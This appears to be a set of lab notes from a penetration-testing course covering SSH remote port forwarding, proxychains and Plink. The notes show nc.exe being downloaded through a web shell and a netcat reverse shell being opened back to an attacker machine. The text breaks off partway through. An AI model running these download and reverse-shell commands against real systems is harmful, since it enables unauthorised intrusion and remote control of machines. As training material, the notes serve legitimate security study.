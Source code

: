 #### Connecting back to our Kali machine to open the remote dynamic port forward
```cmd.exe
ssh -N -R 9998 root@192.168.45.155
```
#### Checking for the open SOCKS port on our Kali machine with ss
```Shell
ss -puntl
```
#### Proxychains configuration file having been edited
```
socks5 127.0.0.1 9998
```
#### Connecting to the PostgreSQL server with psql and Proxychains
```Shell
proxychains psql -h 10.4.50.215 -U postgres
```
### 18.4.2. Plink
#### Browse to /umbraco/forms.aspx on the HTTP server on port 80 on MULTISERVER03
#### Start an apache server on Kali to allow MULTISERVER03 to download nc.exe
```Shell
sudo systemctl start apache2
```
#### Copying nc.exe to the Apache2 webroot
```Shell
find / -name nc.exe 2>/dev/null
```

```Shell
cp /usr/share/windows-resources/binaries/nc.exe /var/www/html
```
#### The PowerShell command we use to download nc.exe to MULTISERVER03 through the web shell
```cmd.exe
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```
#### Start a netcat listener on Kali
```Shell
nc -lnvp 4446
```
#### The nc.exe reverse shell payload we execute in the web shell.
```cmd.exe
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.155 4446
```
#### Copying plink.exe to our Apache2 webroot
```Shell
find / -name plink.exe 2>/dev/null
```
